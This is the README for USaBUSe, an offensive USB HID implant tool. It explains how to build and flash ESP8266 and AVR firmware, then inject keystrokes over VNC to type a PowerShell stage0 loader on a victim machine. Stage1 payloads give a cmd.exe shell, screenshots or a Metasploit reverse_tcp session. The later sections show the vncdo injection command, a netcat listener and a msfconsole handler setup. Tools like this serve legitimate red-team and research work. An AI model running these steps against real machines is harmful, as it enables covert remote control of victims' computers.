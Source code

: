 Instructions for building the Universal Serial aBuse firmwares and host software

Start off by performing a recursive clone of the repository:

```
$ git clone --recursive https://github.com/sensepost/USaBUSe
```

This can take some time, please be patient!

Building the ESP8266 firmware
=============================

Once the recursive clone has completed, build the esp-open-sdk (make sure to
build the STANDALONE version!):

```
  $ cd esp-open-sdk
  $ make STANDALONE=n
```

Note: This step MUST be done on a case-sensitive file system! For OS X, create
an extra volume, make sure to select a case-sensitive file system, and do the
above clone --recursive in this file system.

Once the esp-open-sdk has compiled, in the top-level directory, do:

```
  $ wget --content-disposition "http://bbs.espressif.com/download/file.php?id=1046"
  $ unzip ESP8266_NONOS_SDK_V1.5.1_16_01_08.zip
```

If you are on OS X, you will probably need to install GNU sed, and make sure it
is in your PATH. An easy way of doing this is to use HomeBrew:

```
  $ brew install gnu-sed
  $ export PATH="/usr/local/opt/gnu-sed/libexec/gnubin:$PATH"
```

Alternatively, to ensure that it remains accessible after you log out, and to
avoid strange errors on future builds, add it to your bash profile.

If you run into this, be sure to run "make clean" to remove any broken artifacts,
before trying to build again.

At this stage, you should be able to change to the esp-vnc directory, and run
make to build the ESP8266 firmware.

```
  $ cd esp-vnc
  $ make
```

NOTE: It is expected to get errors regarding incorrect parameters passed to stat
on OS X. This is part of the original esp-link makefile, and has not been
corrected. It does not affect the final firmware build, it is just a check to
make sure that the firmware is not too big.

This should result in a user1.bin file in the esp-vnc/firmware directory.

Building the AVR firmware
=========================

OS X can also get the AVR compiler by installing the Arduino app, e.g. Caskroom/cask/arduino

Linux can install using apt-get:

```
  $ sudo apt-get install gcc-avr avr-libc avrdude
```

Once the avr tools are installed, and avr-gcc is in your PATH, compile the avr firmwares:

```
  $ cd avr
  $ make
```

This should build two firmwares, Program_ESP and KeyboardMouseGeneric. i.e you should have .hex files in each directory.

Programming the firmwares
=========================

```
  $ esp-vnc/flash_esp esp-vnc/firmware/user1.bin avr/KeyboardMouseGeneric/KeyboardMouseGeneric.hex
```

Note: The flash_esp and flash_avr shell scripts contain a pattern which usually
manages to identify the serial port that the AVR appears at. If you have other
USB Serial interfaces connected, you may want to either unplug them, or update
the pattern to exclude the incorrect ports.

Interacting with the device
===========================

To send keystrokes and mouse movements to the device, use a VNC client. The
password is hard coded to "password".

To do this in an automated way, the vncdo tool is very useful. It is referenced
as a submodule, to install it:

```
  $ cd vncdotool
  $ python setup.py
```

Note, vncdotool is only compatible with Python2.7, not python 3+

```
  $ vncdo -s esp-link.lan -p password type "echo hello" key enter
```

A more comprehensive example might be:

```
  $ vncdo -s esp-link.lan -p password key alt-r pause 1 type powershell key enter pause 1 typefile powershell/read_exec.ps1
```

If esp-link.lan does not resolve, look for port 23 and 5900 on the local network,
or check your DHCP server.

Interacting with the Generic HID interface requires the victim-side code found
under the powershell/ directory, as well as the attacker-side code found in
stage.sh. A demonstration of a complete, end-to-end attack can be found in
attack.sh

In summary, the way it works is for the attacker to use VNC to type out a stage0
payload (currently using powershell), which has just enough smarts to open the
higher-bandwidth channel (currently only Generic HID is implemented), and load
and execute a more complicated stage1 payload. There are a couple of stage1
payloads implemented currently:

* spawn.ps1 - Run cmd.exe, and pipe stdout/stderr over the device, while reading
  from the device, and writing that to stdin of the process.
* screenshot.ps1 - take a screenshot of the desktop, and send it over the device.
* msf_proxy.ps1 - Open a TCP socket on localhost:65535, and relay data back and
  forth over the device. In a separate thread, invoke the metasploit stage
  loader, connecting to localhost:65535. This can be used to run a msfconsole
  windows/shell/reverse_tcp or even (with some patience!) a full
  windows/meterpreter/reverse_tcp.

Patience is required because the USB device does not have particularly high
bandwidth. Generic HID is limited to 64KB/s, and the UART between the two
microprocessors is limited to 250kbps (25KBps), but other limitations (many
likely due to naive implementation!) limit us even further! Currently, we are
achieving approximately 4KBps.

Patches to improve the speed (and any other aspect of the system) are welcome!

Once the basic stage0 payload has been typed out via VNC, the second stage is
sent via the Generic HID interface (only implementation currently).

read_exec.ps1 expects to receive the next stage in the following format:

```
<stage length high byte><stage length low byte><powershell stage>
```

The included stage.sh shell script takes care of this process for you.

Note! There is an important sleep included between sending the second stage, and
connecting the socket to the final endpoint (msf, etc). The reason for this is
that the second stage may not finish on a 63-byte boundary, and if the final
endpoint starts sending data prematurely, some of that data may end up "packed"
into the empty space in the last packet of the stage2 payload. Currently, the
stage0 loader has no mechanism to keep this data aside for later use by the
second stage, and it gets discarded. Introducing a sleep ensures that any data
from the final endpoint does not get packed in with the stage2 payload, and
avoids data corruption.

Using Metasploit Framework
==========================

The current attack.sh script expects to connect to a listener running on port 4444
on localhost. Exactly what sort of listener that should be depends on the stage1
script that was sent. If you send spawn.ps1, the listener can be a simple
"nc -l -p 4444". If you are sending msf_proxy.ps1, the listener should be an
appropriately configured msfconsole. You can choose your payload as you like,
from the group of payloads that make use of a staged/reverse_tcp connection.

For example:
```
./msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit
```

NB: Do NOT set LHOST to 127.0.0.1, this is an internal "magic number" used by
metasploit for its own purposes. Things randomly break if you do!
